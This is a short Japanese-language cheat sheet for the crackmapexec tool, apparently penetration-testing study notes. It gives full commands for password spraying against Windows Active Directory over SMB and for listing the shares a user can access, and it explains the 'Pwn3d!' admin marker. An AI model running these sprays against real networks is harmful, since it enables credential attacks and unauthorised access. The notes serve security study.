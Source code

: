 # crackmapexec
WindowsのAD環境に対して、列挙したユーザ名を使ったパスワードスプレーを実行できるツール。

## コマンド集

1. smbのIPを指定して、users.txt内のユーザ名に対し、-pで指定したパスワードのスプレーを行う。ドメインはcorp.comに設定。  
また、--continue-on-successで、有効な認証情報が最初に出た時に実行をストップせずスプレーを実行し続ける。  
ちなみに、出力に**Pwn3d!**が書いてあったら、そのユーザは管理者権限を持っていることになる。
```
crackmapexec smb 192.168.50.75 -u users.txt -p 'Nexus123!' -d corp.com --continue-on-success
```

2. ターゲット上のsmbでアクセスが許可されているふぁいるとふぉるだの一覧を取得する
```
crackmapexec 192.168.50.242 -u john -p "hoge" --shares
```
